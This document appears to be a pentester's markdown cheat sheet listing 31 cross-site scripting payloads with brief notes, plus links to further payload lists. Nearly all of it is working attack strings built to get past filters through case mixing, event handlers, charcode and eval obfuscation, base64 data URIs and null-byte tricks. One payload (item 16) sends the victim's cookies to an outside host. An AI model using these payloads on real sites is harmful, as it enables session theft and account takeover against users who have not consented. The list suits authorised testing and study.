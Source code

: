 
### Top XSS Payloads 


1- `<script>alert("1")</script>`  


2- `<sCript> alert("bypassing simple filters") </sCRIpt>` 


3- PentesterLab 


4- `<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`


5- `<img src='zzzz' onerror='alert(1)' />` 


6- `<div style="color:red" onclick=alert('xss')>`  | Coloring is adding to see the div


7- `<div style="color:green" onmouseover=alert('xss') >`


8- `<script>console.log("test")</script>` |  __Tests if word script is allowed but alert is not__


9- <img src="cc" onerror=eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))> | __alert is not allowed__ 


10- `</script><script>alert('XSS');</script>` | __escaping script tags to excute the payload__


11- `';alert('xss');//`  | The apostrophe character is used to escape in PHP htmlentities __'__


12- `' onerror=alert('xss');> ` &nbsp;  &nbsp; |  &nbsp; use this if the vulnerability in the image


13- `#<script>alert(1)</script>` &nbsp;  &nbsp;  |  &nbsp;  __exploiting the DOM xss with hash.substring__


14- `#javascript:alert(1)`  &nbsp;  &nbsp; |  &nbsp;  __exploiting the DOM xss with hash.substring__


15- `" onmouseover="alert(1)` &nbsp;  &nbsp; |  &nbsp;


16- `<script> var i = new Image(); i.src="http://URL/get.php?cookie="+escape(document.cookie)</script>` | __to get cookie__


17- `“><script >alert(document.cookie)</script >` |  __to get cookie__


18- `“><ScRiPt>alert(document.cookie)</ScRiPt>` 


19- ` “%3e%3cscript%3ealert(document.cookie)%3c/script%3e` 


20- `“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>`


21- `%00“><script>alert(document.cookie)</script>`

22- `<object data=”data:text/html,<script>alert(1)</script>”>`

23- `<object data=”data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”>`

24- `<a href=”data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”>`

25- `Click here</a>`

26- `<img o[%00]nerror=alert(1) src=a> ` | to bypass attribute filters

27- `<img onerror=”alert(1)”src=a>`   | attribute delimiter

28- `<img onerror=’alert(1)’src=a>` | attribute delimiter      

29- `<img onerror=`alert(1)`src=a>` | attribute delimiter

30- `<img onerror=a[%00]lert(1) src=a>` | attribute value

31- `<img onerror=a&#x6c;ert(1) src=a>` | attribute value



### Extra Resources:

- [Convert Characters to ASCII Codes](https://www.browserling.com/tools/text-to-ascii)

- [Complete List of XSS Payloads:](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

- [ABC of XSS](https://quanyang.github.io/the-abcs-of-xss/)

- [Infosec Notes](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)

- 
